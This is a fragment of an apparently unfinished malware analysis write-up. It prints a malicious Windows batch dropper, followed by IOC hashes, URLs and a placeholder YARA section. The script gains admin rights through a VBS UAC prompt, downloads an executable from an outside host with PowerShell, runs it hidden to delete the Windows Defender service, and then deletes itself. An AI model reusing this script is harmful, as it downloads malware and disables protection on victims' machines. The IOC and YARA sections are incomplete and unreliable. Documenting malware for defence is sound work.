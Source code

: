 :UACPrompt
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    set params = %*:"="
    echo UAC.ShellExecute "cmd.exe", "/c %~s0 %params%", "", "runas", 1 >> "%temp%\getadmin.vbs"

    "%temp%\getadmin.vbs"
    del "%temp%\getadmin.vbs"
    exit /B


:gotAdmin


powershell Invoke-WebRequest https://pornofilmspremium.com/javase.exe -OutFile javase.exe

set pop=%systemroot%
javase -U:T -ShowWindowMode:Hide  sc delete  windefend
start /b "" cmd /c del "%~f0"&exit /b
{% endhighlight %}

It continues to run the exe in hidden mode.

IOCs:
--------------------
{% highlight ruby %}
SHA256: 678f9d715220512a823ca45d7e8545a1288728d8d47243e072e17049441cdd2b 
SHA256: 678f9d715220512a823ca45d7e8545a1288728d8d47243e072e17049441cdd2b ??? fix both links here and
SHA256: ba1e4fd49e7c2aebd06ad3e22e6cf8f4d433fa57c6cc45167c9859c7f35eaa2f 
URL: hxxps://websekir.com/g00glbat/index/processingSetRequestBat/?servername=msi
URL: hxxps://pornofilmspremium.com/tim.EXE
CLI: 
{% endhighlight %}

VT Content Search for similar files(TBD) : 
{% highlight ruby %}
Hexadecimal 	content:{CAFEBABE}
{% endhighlight %}

YARA Rules:
--------------------
{% highlight ruby %}
Hexadecimal 	content:{CAFEBABE}
{% endhighlight %}

